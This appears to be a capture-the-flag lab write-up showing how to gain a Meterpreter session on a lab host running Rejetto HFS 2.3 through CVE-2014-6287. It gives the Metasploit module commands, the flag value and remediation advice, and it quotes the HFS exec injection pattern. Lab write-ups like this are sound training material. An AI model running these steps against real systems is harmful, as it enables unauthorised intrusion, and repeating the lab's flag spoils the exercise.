








# Windows: HTTP File Server

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (10.2.26.155) — Windows Server 2008 R2–2012, Rejetto HFS 2.3<br>
**Flag:** `f74c8347798f4082daf4b4570dba094a`

## 1. Executive Summary

The target runs **Rejetto HTTP File Server 2.3**, vulnerable to CVE-2014-6287
(unauthenticated RCE). Metasploit's `rejetto_hfs_exec` module gives a Meterpreter session,
and the flag is in `C:\`.

## 2. Recon

```bash
ping -c 4 demo.ine.local
db_nmap -sV 10.2.26.155
services
```







Port 80 runs **HttpFileServer httpd 2.3** (Rejetto HFS).





## 3. Exploitation

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.2.26.155
exploit
```





## 4. Capturing the Flag

```bash
cd C:\
ls
cat flag.txt
# f74c8347798f4082daf4b4570dba094a
```



## 5. Remediation Recommendations

1. **Patch/replace Rejetto HFS** — CVE-2014-6287 is unauthenticated RCE and the project is
   unmaintained.
2. **Run the service with least privilege** and restrict its exposure to trusted networks.
3. **Deploy a WAF/IPS** to catch the HFS `search=%00{.exec|...}` injection pattern.
